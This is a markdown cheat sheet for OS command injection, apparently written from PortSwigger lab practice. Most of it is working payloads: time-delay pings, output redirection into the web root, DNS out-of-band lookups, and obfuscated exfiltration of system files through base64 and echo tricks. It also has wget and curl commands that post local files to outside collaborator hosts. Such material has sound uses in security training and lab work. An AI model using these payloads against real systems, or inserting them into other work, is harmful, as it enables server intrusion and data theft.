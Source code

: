 # Command Injection

## Summary

* [General Recon For Comamnd Injection Vulnerabilities](#recon)

  
* [Portswigger Labs Cheat Sheet / Payloads](#cheat-sheet)

  
   * [Obfuscation Related Payloads](#obfuscation-payloads)

<br>

## Resources

* https://portswigger.net/web-security/os-command-injection
* https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/12-Testing_for_Command_Injection

<br>

## Recon

* First step is to perform application mapping and identify any instances where the application appears to be interacting with the underlying OS by calling external processes or accessing the filesystem.  
* The application may issue OS system commands containing any item of user supplied data (every URL, parameters, cookies, etc.).  It’s recommended to probe all these instances for OS Command Injection.

<br>

---
---

## Cheat Sheet

### Background Knowledge

* The characters ; | & and newline(URL encoded -> %0a) can be used to batch multiple commands one after another.  Each of these characters should be used when probing for command injection vulnerabilities, as the application may reject some inputs but accept others.

* The backtick \` character can also be used to encapsulate a separate command within a data item being processed by the original command.  This will cause the interpreter to execute this command first before continuing to execute the remaining command String: 

```bash
nslookup `whoami`.server-you-control.net
```

<br>

* Other useful commands to know:  https://portswigger.net/web-security/os-command-injection#useful-commands

* Ways of injecting OS commands:  https://portswigger.net/web-security/os-command-injection#ways-of-injecting-os-commands

Note:   Note that the different shell metacharacters have subtly different behaviors that might affect whether they work in certain situations, and whether they allow in-band retrieval of command output or are useful only for blind exploitation.

Sometimes, the input that you control appears within quotation marks in the original command. In this situation, you need to terminate the quoted context (using " or ') before using suitable shell metacharacters to inject a new command.

<br>

### Example

* Many times the injected characters need to be encoded, since they can interfere with the structure of the URL/body parameters.

  * For example, below the & and {space} characters need to be URL encoded (%26 and %20) in order to be treated as part of the injection payload:

![Command Injection](https://github.com/ChrisM-X/PortSwigger-Academy-CheatSheets/blob/master/Command%20Injection/Images/CommandInjection-1.png)

<br>

### Simple Command Injection

```bash
& echo test123 &
```

<br>

### Blind Command Injection

* Many times, the results of the injected commands are not returned in the application responses.  If that is the case, we can use the ping command to trigger a time delay in the application’s response by causing the server to ping its loopback interface for a specific time period.

* To maximize chances of identifying OS Command Injection if the application is filtering certain command separators, submit each of the following payloads to each input fields and analyze the time taken for the application to respond:

```bash
| ping -i 30 127.0.0.1 |
```

```bash
email=x||ping+-c+10+127.0.0.1||
```

```bash
| ping -n 30 127.0.0.1 |
```

```bash
& ping -i 30 127.0.0.1 &
```

```bash
& ping -n 30 127.0.0.1 &
```

```bash
; ping -i 30 127.0.0.1 ;
```

```bash
%0a ping -i 30 127.0.0.1 %0a
```

```bash
` ping 127.0.0.1 `
```

<br>

### Output Redirection

* We can also redirect a commands output to a file using the > character.  The below example redirects the output of the OS command to a file <u>within the web root</u>, then we can access the file to view the contents through our browser.

```bash
; whoami > /var/www/images/test;
```
```bash
email=||whoami>/var/www/images/output.txt||
```
<br>

### Out-of-band channel payloads

#### Network Interaction

```bash
; nslookup server-you-control ;
```

```bash
& nslookup server-you-control &
```

<br>

#### Reverse Shells
* https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

<br>

#### DNS Data Exfiltration
* Using backticks \`_command_\` and $(_command_)

```bash
; nslookup $(whoami).server-you-control ;
```

```bash
; nslookup `whoami`.server-you-control ;
```

<br><br><br>

### Obfuscation Payloads:

The goal here was to learn how the following payload can be obfuscated, to bypass filters for data exfiltration.

The payloads can be combined when exploiting Template Injection or other vulnerabilities that use OS Command injection.

<br>

  * Original Payload:
    
```
||nslookup+$(cat+/etc/hostname).fp8v70vp.oastify.com||
```

<br>

  * Obfuscation - Using the "echo" command to help obfuscate the word "hostname"

```
||nslookup+$(cat+/etc/ho`echo+'stname'`).fp8w54v70vp.oastify.com||
```

<br>

  * Obfuscation - Using base64 encoding to "hide" the file name "/etc/hostname"
    
```
||nslookup+$(cat+`echo+'L2V0Yy9ob3N0bmFtZQ=='+|+base64+--decode`).fp8v70vp.oastify.com||
```

  * Decoded payload
```
||nslookup $(cat `echo 'L2V0Yy9ob3N0bmFtZQ==' | base64 --decode`).fp8w70vp.oastify.com||
```

<br>

* Obfuscation - Using base encoding to "hide" the whole command "cat /etc/hostname"

```
||nslookup+$(`echo+'Y2F0IC9ldGMvaG9zdG5hbWU='+|+base64+--decode`).er9v70tk9lz9o.oastify.com||
```

<br><br>

* Other methods to achieve data exfiltration:

```
nslookup -q=cname $(cat /home/test).burp.oastify.com
```

```
wget http://burp-collab.com --post-file=/home/test
```

```
curl http://wcq0jo8.oastify.com -d @/home/test
```

<br><br><br>

### Pending to complete labs that are missing from cheat sheet:

* All labs in this category are completed and referenced in cheat sheet.
